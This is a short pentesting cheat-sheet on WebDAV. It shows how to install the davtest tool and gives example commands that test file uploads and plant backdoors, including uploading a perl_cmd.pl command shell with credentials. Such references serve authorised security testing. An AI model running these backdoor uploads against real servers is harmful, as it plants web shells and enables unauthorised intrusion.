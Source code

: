 ```yaml
---
description: A list of Pentesting Techniques for WebDAV.
---
```


# Pentesting WebDAV - port 80,443

## Scanning tools

### davtest

**davtest** is a tool that can be use to automate the exploit of WebDAV. It try to create files, directories, upload webshell, etc.

#### Requirements

Two perl modules are required, you can install both with `apt`.

```bash
sudo apt install libhttp-dav-perl
sudo apt install libgetopt-long-descriptive-perl
```

#### Example

```bash
# Test file uploads at this location url
davtest.pl -url <URL>
# Test file uploads at this location url and send backdoors for any that succeed
davtest.pl -url <URL> -sendbd auto

# Upload a file using authentication, send the perl_cmd.pl backdoor and call it perl.pl on the server
davtest.pl -url <URL> -auth <username>:<password> -uploadfile backdoors/perl_cmd.pl -uploadloc perl.pl
```

> Github: [https://github.com/cldrn/davtest](https://github.com/cldrn/davtest)
